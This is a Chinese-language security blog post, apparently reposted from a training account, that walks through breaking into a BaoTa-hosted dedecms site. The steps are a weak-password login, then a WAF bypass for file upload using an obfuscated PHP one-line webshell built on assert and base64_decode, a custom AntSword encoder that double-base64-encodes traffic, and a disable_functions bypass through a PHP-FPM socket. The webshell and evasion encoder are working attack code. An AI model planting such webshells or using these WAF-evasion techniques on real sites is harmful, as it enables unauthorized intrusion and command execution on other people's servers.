 # 原创
：  复现 文件上传漏洞bypass

# 复现 文件上传漏洞bypass

> 
<h3>公众号：掌控安全EDU 分享更多技术文章，欢迎关注一起探讨学习</h3>


### 1，弱口令发现目标网站，为宝塔搭建的dedecms，于是自己服务器搭建同样的

### 2 get请求phpinfo() 有waf，上传文件有waf

### 3，寻找资料，发现是，宝塔的ngix防火墙。同样在自己的服务器上部署成功。顺便还看到了，宝塔的过滤规则。

<br/> 可以发现， 规则，对get，post ，cookie，等方式的eval，还有base64都进行了过滤

### 4，过waf的一句话， eval和assert的区别

<br/> 规则， 对eval( base64( phpinfo( 等过滤了。可以采取字符串拼接的方式。<br/> 但是，eval是不能够被拼接的。因为eval()是一个语言构造器,他不能使用PHP提供的可变函数来调用<br/> 上代码：
1.  `&lt;?php` 1.  `$a='assert';` 1.  `$m='base64_decode';` 1.  `$a($m($_REQUEST['z']));` 
### 5，为什么要base64呢？因为蚁剑，和菜刀的流量特征。。里面有base64

<br/> 这个就是蚁剑的流量特征。有明显的base64所以直接被过滤掉了。<br/> 通过查资料。知道，1方面要对小马进行base64编码， 另外一方面要对蚁剑进行魔改。小马就是上面的小马了。至于蚁剑的魔改， 直接改配置 。简单来说，就是双base64
1.  `'use strict';` 1.   1.  `module.exports = (pwd, data, ext={}) =&gt; {` 1.  `data[pwd] = Buffer.from(data['_']).toString('base64');` 1.   1.  `delete data['_'];` 1.   1.  `return data;` 1.  `}` 
其实当小马写入进去的时候， 就可以执行了。<br/> 不过传进去的是phpinfo() 的base64编码 . 正好小马是base64decode

### 6 蚁剑连接成功。

当然编码格式得选刚才自己写的编码

### 7，但是控制台，不管输入whoami，还是ls ，还是其他命令，全部都是ret=127

<br/> 通过查资料知道了。这是phpinfo 里面设置的disable_function 过滤掉了， system函数。

### 8，于是要绕过disable_function 。

1，我先找的资料，是蚁剑的绕过disable_function 。蚁剑有个插件市场有绕过disable_function

<br/> 通过一个个测试， 只有选择fastcgi/php_FPM。并且自己狠狠地恶补了这个知识。大意就是，fastcgi是个解释器，直接修改这个解释器，从而绕过phpinfo的disbale_function .

<br/> 千万要注意的是，这个得选择这个。找了好多资料，测试好多次。一直找不到。其他的都不对。

<br/>`/tmp/php-cgi-70.sock`

### 9，蚁剑文件上传成功。

